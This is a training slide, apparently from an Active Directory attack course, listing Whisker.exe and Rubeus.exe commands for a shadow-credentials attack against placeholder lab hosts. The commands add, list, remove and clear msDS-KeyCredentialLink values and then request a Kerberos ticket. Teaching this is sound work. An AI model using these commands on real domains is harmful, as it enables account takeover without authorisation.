

# From Domain Joined
Attack Path with Whisker.exe:
	- Whisker.exe add /target:TheHorseman /domain:EvilCorp.local /dc:EvilDC1.EvilCorp.local
	- Whisker.exe list /target:TheHorseman /domain:EvilCorp.local /dc:EvilDC1.EvilCorp.local
	- Rubeus.exe asktgt /user:TheHorseman /certificate:ADSDADSAD….

Remove values from msDS-KeyCredentialLink attribute of a target object:
	- Whisker.exe remove /target:TheHorseman /domain:EvilCorp.local /dc:EVILDC1.EvilCorp.local 			/remove:2de4643a-2e0b-438f-a99d-5cb058b3254b

Clear all the values of the the msDS-KeyCredentialLink attribute of a target object:
	- Whisker.exe clear /target:TheHorseman /domain:EvilCorp.local /dc:EVILDC1.EvilCorp.local